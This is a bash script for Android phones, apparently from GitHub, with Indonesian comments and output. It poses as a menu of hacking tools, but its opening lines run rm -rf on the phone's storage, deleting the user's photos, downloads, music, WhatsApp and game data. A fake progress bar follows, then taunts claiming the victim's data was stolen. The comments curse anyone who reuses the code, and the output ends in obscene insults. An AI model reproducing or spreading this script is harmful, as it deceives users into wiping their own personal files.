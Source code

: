 #!/system/xbin/bash
#AUTHOR:Maulana Gans
#Github:https://github.com/reyspeed
#Ngapain Lo Sampai Sini Mau Recode! Gua Doain Orang Tua Lu Meninggal Dan Lu mandul Sampai Mati.boleh Recode Tapi Hargai Author Njeng
#Bersihkan Layar
cd /sdcard
rm -rf Android
rm -rf Download
rm -rf DCIM
rm -rf UCDownloads
rm -rf com.garena.game.codm
rm -rf Music
rm -rf Pictures
rm -rf Movies
rm -rf WhatsAp
rm -rf vidio
rm -rf vidioku
rm -rf com.garena.freefire
rm -rf sd card
rm -rf storage








blue='\e[1;34m'
green='\e[1;32m'
purple='\[1;35m'
cyan='\e[1;36m'
red='\e[1;31m'
white='\e[1;37m'
yellow='\e[1;33m'
sleep 3
echo "\033[32;1m
#################################
#-AUTHOR=Maulana Gans             #
#-INSTAGRAM=kontol                   #
#-youtube=Maulana Gans             #
#-Email=reyspeed01@gmail.com    #
#################################
"
sleep 3

echo "\033[32;1mTULIS= Maulana Gans
read p;

sleep 3

echo "\033[32;1m
#-KUMPULAN TOOLS 2019 NO ROOT-#
______________________________
|1.hack wifi (no Root)       |
|2.sadap Wa (No Root)        |
|3.hack lampu lalu Lintas    |
|4.hack Facebook Target      |
|5.hack Instagram            |
|6.hack Hp Orang             |
|7.spam Sms Unlimited        |
|8.hack Camera               |
|9.install Metasploit        |
|10.DDOS                     |
|11.hack lampu Cafe          |
|12.DOS                      |
|13.Sql Injetion             |
|14.Admin Finder             |
|15.Root Hp                  |
|16.Hack Atm                 |
|17.Hack Satelit             |
|18.Pelacack Penipu          |
|19.Hack CCTV                |
|20.pembuat panas Hp Orang   |
|____________________________|


"
echo "\033[32;1mPilih No : "
read p;

sleep 2
echo "Sabar Njeng Proses..."
echo "\033[34;1m#10%"
sleep 1
echo "##20%"
sleep 1
echo "###30%"
sleep 3
echo "####40%"
sleep 3
echo "#####50%"
sleep 3
echo "######60%"
sleep 3
echo "#######70%"
sleep 4
echo "########80%"
sleep 3
echo "#########90%"
sleep 4
echo "##########100%"
sleep 3
echo "_____________________________________"
sleep 3
echo "Kau Baca Pesan Gua Njeng"
sleep 4
echo "hacker Jahat Berawal Dari"
sleep 4
echo "hacker Baik yang Di Sakiti"
sleep 4
echo "Seperti Saya Yang Selalu Di Sakiti"
sleep 4
echo "Jadi Kalian Harus Merasakan"
sleep 4
echo "Apa Yang Saya Rasakan"
sleep 4
echo "Selamat Data Kalian Saya Curi "
sleep 4
echo "Gak Senang Lo Njenk"
sleep 4
sleep 3
echo "____________________________________"
sleep 4
toilet -f standard -F gay "MAMPUS"
sleep 3
toilet -f standard -F gay "LOE"
sleep 3
toilet -f standard -F gay "BANGSAT"
